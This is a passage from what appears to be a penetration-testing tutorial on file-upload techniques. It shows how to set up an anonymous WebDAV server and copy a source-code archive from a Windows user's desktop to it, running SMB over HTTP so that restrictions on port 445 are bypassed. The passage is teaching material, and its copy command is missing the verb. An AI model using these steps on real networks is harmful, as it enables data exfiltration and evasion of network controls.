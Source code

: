### SMB Uploads via WebDAV

The next section discusses using **SMB over HTTP** with WebDAV. Many organizations restrict SMB traffic (TCP/445) due to security concerns, but WebDAV provides a workaround by running SMB over HTTP (TCP/80). This method is commonly used for file sharing and remote access.

### Setting Up WebDAV Server

To set up a WebDAV server, we install the necessary Python modules:

```bash
$ sudo pip3 install wsgidav cheroot

```

Then, we run the WebDAV server:

```bash

$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

```

This command runs the WebDAV server on port 80, serving files from `/tmp` with anonymous authentication.

### Connecting to the WebDAV Share

Once the WebDAV server is set up, we can access it from a Windows machine using the `DavWWWRoot` folder:

```powershell
dir \\\\192.168.49.128\\DavWWWRoot

```

This command lists the files available on the WebDAV server.

### Uploading Files via WebDAV

To upload a file (e.g., `SourceCode.zip`) to the WebDAV share, we use the `copy` command:

```powershell
C:\\Users\\john\\Desktop\\SourceCode.zip \\\\192.168.49.128\\DavWWWRoot\\

```

This uploads the specified file to the WebDAV share, allowing for easy file transfer over HTTP.

---

### FTP Uploads

FTP (File Transfer Protocol) is another method for uploading files. In this section, we discuss how to set up an FTP server using Python's `pyftpdlib` module and how to use PowerShell or command line tools to upload files to it.

### Setting Up the FTP Server
